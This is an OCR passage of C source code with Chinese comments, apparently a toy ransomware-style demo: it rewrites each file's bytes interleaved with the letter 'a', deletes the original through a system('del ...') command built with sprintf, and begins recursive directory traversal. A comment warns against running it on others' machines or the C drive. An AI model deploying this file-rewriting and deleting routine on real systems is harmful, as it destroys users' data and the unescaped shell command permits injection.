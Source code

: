 ```
		printf("打开文件失败\n");
		return;
	}
	printf("打开 %s 文件成功!\n", fileName);

	//获取文件大小
	fseek(fp, 0, SEEK_END);                   //设置光标到文件末尾
	size = ftell(fp);                         //计算光标位置距离文件头字节数
	fseek(fp, 0, SEEK_SET);                   //设置光标位置到文件头
	printf("文件大小为：%d字节！\n", size);

	//获取文件所有内容
	char code = 'a';
	char ch;
	char temp[256];
	memset(temp, 0, 256);
	sprintf(temp, "%s\\%s", pathName, "test");
	printf("%s\n", temp);

	FILE* fpw = fopen(temp, "wb");         //写入文件
	while (!feof(fp)) { 
		ch = fgetc(fp);
		fputc(ch, fpw);
		fputc(code, fpw);
		//printf("%c\n", ch);
	}

	//保存关闭
	fclose(fp);
	fclose(fpw);

	//替换文件
	char commend[1024];
	memset(commend, 0, 1024);
	sprintf(commend, "del \"%s\"", fileName);     //访问路径包含空格增加双引号
	printf("%s\n", commend);
	system(commend);
	rename(temp, fileName);                       //调用C语言rename函数重命名文件
	printf("\n");
	return;
}

//遍历文件夹找到每个文件 参数-文件夹名字
void findFile(char* pathName)
{
	/* 禁止加密他人计算机,一定只能对指定目录加密,尤其不能对C盘加密 */
	//1.设置要找的文件名 通配符实现
	char findFileName[256];
	memset(findFileName, 0, 256);                   //清空数组
	sprintf(findFileName, "%s\\*.*", pathName);
	printf("要找的文件名是：%s\n", findFileName);

	//2.获取目录下第一个文件
	WIN32_FIND_DATA findData;                    //定义结构体
	HANDLE hFile = FindFirstFile(findFileName, &amp;findData);
	//判断返回值等于-1(INVALID_HANDLE_VALUE)
	if (INVALID_HANDLE_VALUE == hFile) {
		printf("查找文件失败!\n");
		return;
	}
	//如果成功进入死循环继续查找下一个文件
	else {
		int ret = 1;
```